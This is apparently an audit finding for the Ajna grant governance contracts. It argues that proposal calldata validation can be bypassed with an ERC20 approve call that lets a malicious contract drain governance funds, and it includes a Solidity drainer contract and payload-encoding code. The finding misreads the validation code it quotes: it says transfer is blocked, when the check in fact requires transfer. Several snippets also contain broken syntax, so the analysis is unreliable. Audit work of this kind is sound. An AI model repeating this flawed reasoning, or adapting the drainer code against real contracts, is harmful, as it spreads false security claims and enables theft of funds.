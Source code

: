 ctf_sec

high

# Insufficient validation of the CallDatas for governance proposal

## Summary

Insufficient validation of the CallDatas for governance proposal

## Vulnerability Detail

In the current implementation of Grant governance, the function _validateCallData is called when a new proposal is propsed both in StandardFunding#proposeStandard and in ExtraordinaryFunding.sol#proposeExtraordinary

```solidity
3 results - 3 files

ecosystem-coordination\src\grants\base\ExtraordinaryFunding.sol:
  82  
  83:         uint256 totalTokensRequested = _validateCallDatas(targets_, values_, calldatas_);
  84  

ecosystem-coordination\src\grants\base\Funding.sol:
  98       */
  99:     function _validateCallDatas(address[] memory targets_,
  100          uint256[] memory values_,

ecosystem-coordination\src\grants\base\StandardFunding.sol:
  321          // check proposal parameters are valid and update tokensRequested
  322:         newProposal.tokensRequested  = _validateCallDatas(targets_, values_, calldatas_);
  323  
```

the function _validateCallDatas is trying to do two things, extracting the number of token requested, and block malicious proposal such as transfer the token out of the wallet directly

```solidity
function _validateCallDatas(address[] memory targets_,
	uint256[] memory values_,
	bytes[] memory calldatas_) internal view returns (uint256 tokensRequested_) {

	for (uint256 i = 0; i < targets_.length;) {

		// check  targets and values are valid
		if (targets_[i] != ajnaTokenAddress) revert InvalidTarget();
		if (values_[i] != 0) revert InvalidValues();

		// check calldata function selector is transfer()
		bytes memory selDataWithSig = calldatas_[i];

		bytes4 selector;
		//slither-disable-next-line assembly
		assembly {
			selector := mload(add(selDataWithSig, 0x20))
		}
		if (selector != bytes4(0xa9059cbb)) revert InvalidSignature();

		// https://github.com/ethereum/solidity/issues/9439
		// retrieve tokensRequested from incoming calldata, accounting for selector and recipient address
		uint256 tokensRequested;
		bytes memory tokenDataWithSig = calldatas_[i];
		//slither-disable-next-line assembly
		assembly {
			tokensRequested := mload(add(tokenDataWithSig, 68))
		}

		// update tokens requested for additional calldata
		tokensRequested_ += tokensRequested;

		unchecked {
			++i;
		}
	}
}
```

Note the code:

```solidity
// check calldata function selector is transfer()
bytes memory selDataWithSig = calldatas_[i];

bytes4 selector;
//slither-disable-next-line assembly
assembly {
	selector := mload(add(selDataWithSig, 0x20))
}
if (selector != bytes4(0xa9059cbb)) revert InvalidSignature();
```

bytes4(0xa9059cbb) is the signature for transfer 

https://www.4byte.directory/signatures/?bytes4_signature=0xa9059cbb

However, such validation is not sufficient to block malicious proposal.

a malicious actor submit a proposal which set target address to AJNA ERC20 token and calldata that calls approve function to bypass the validation.

## Impact

Let us look into how the proposal is executed:

```solidity
/// @inheritdoc IStandardFunding
function executeStandard(address[] memory targets_, uint256[] memory values_, bytes[] memory calldatas_, bytes32 descriptionHash_) external nonReentrant returns (uint256 proposalId_) {
	proposalId_ = hashProposal(targets_, values_, calldatas_, descriptionHash_);
	Proposal memory proposal = standardFundingProposals[proposalId_];

	// check that the distribution period has ended, and one week has passed to enable competing slates to be checked
	if (block.number <= distributions[proposal.distributionId].endBlock + 50400) revert ExecuteProposalInvalid();

	super.execute(targets_, values_, calldatas_, descriptionHash_);
	standardFundingProposals[proposalId_].executed = true;
}
```

note the line of execution:

```solidity
super.execute(targets_, values_, calldatas_, descriptionHash_);
```

values can be ignored and descriptionHash are ignored, 

the targets and calldatas are the important part.

When proposing the proposal, the adversary cannot submit the malicious target address and calldata below.

The target address is the ANJA token 

the calldata can be generated with

```solidity
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

uint256 tokenAmount = 100000 ether;
address hacker = msg.sender;
bytes calldata = abi.encodeWithSelector(IER20.transfer.selector, hacker, tokenAmount)
```

The above target address + calldata combination means once the proposal is executed,
if there are token balance in the Grant governance smart contract, 100000 amount of ANJA token will be transferred to the hacker address.

However, because the bytes4(0xa9059cbb) is the signature for transfer and the transfer is not allowed in the calldata, the above attack is throttled.

But the hacker does not have to call transfer method directly, the hacker can generate the payload that call approve function indirectly by approving a malicious contract that can transfer the ANJA token out of the governance contract if the malicious proposal is executed.

In the malicious proposal, the target address is the AJNA token as well,

The hacker can deploy the contract below

```solidity
contract MaliciousContract {

    address public ajnaGonvernance;

    constructor(_ajnaGovernance) {
       ajnaGonvernance = _ajnaGovernance
    }
 
    function steal(address token, address to, uint256 amount) external {
        IERC20(token).transferFrom(address(ajnaGovernance), to, amount);
    }
}
```

then the hacker can generate the malicious calldata:

```solidity
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

uint256 tokenAmount = 100000 ether;
address hackerContract = "maliciousAddress"
bytes calldata = abi.encodeWithSelector(IER20.approve.selector, hackerContract, tokenAmount)
```

to bypass the transfer signature check.

## Code Snippet

https://github.com/sherlock-audit/2023-01-ajna/blob/main/ecosystem-coordination/src/grants/base/Funding.sol#L91-L133

## Tool used

Manual Review

## Recommendation

We recommend the proposal block arbitrary execution and at least blacklist the method signature such as transferFrom, approve and increaseAllowance.
